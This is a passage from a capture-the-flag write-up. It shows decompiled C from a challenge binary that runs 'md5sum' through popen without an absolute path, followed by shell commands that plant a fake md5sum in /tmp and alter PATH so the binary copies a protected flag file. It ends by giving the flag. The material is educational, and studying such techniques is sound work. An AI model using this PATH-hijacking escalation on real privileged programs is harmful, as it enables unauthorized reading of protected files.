 ```c
    puVar5 = puVar5 + (ulong)bVar6 * -2 + 1;
  }
  local_420 = popen("md5sum /home/ctf_cracked/flag.txt | cut -d \' \' -f 1","r");
  if (local_420 == (FILE *)0x0) {
    puts("Command Failed");
    uVar2 = 1;
  }
  else {
    fgets((char *)&local_418,0x400,local_420);
    sVar3 = strlen((char *)&local_418);
    *(undefined *)((long)&local_420 + sVar3 + 7) = 0;
    iVar1 = strcmp((char *)&local_418,"8b098e9d5692641375f8da6d399edf98");
    if (iVar1 == 0) {
      puts("All is clear");
    }
    else {
      puts("Contact Administrator");
    }
    uVar2 = 0;
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```

The file containing the flag is (of course) not directly readable, but the owner is the same as the binary owner: `ctf_cracked`. The program executes a command. We can abuse this by editing the PATH before launching the binary:

```bash
$ cd /tmp
$ mkdir solution
$ echo '#!/bin/bash' >> md5sum
$ echo 'cat /home/ctf_cracked/flag.txt > /tmp/solution/flag.txt' >> md5sum
$ PATH=$(pwd):/bin check
$ cat /tmp/solution/flag.txt
```

The flag was `CYBERTF{B@sicPrivEsc(Anti_Gu3ssing)}`.

## More

You can [view the sources on github](https://github.com/vivescere/ctf/tree/main/cyber-threat-force-2021/pwn/bof1) or [read other writeups](/blog/cyber-threat-force-ctf/).

